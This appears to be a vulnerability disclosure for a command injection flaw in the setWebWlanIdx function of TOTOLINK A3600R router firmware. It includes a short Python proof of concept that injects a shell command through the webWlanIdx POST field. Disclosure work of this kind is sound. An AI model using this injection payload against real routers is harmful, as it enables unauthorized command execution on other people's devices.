 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `setWebWlanIdx ` function. The `v5` variable receives the `webWlanIdx` parameter from a POST request. However, since the user can control the input of `webWlanIdx`, the `CsteSystem` can cause a command injection vulnerability.

![image-20240721015317125](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015317125.png)

## POC

```python
/import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"webWlanIdx":";ls -al ../ ;","topicurl":"setting/setWebWlanIdx"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
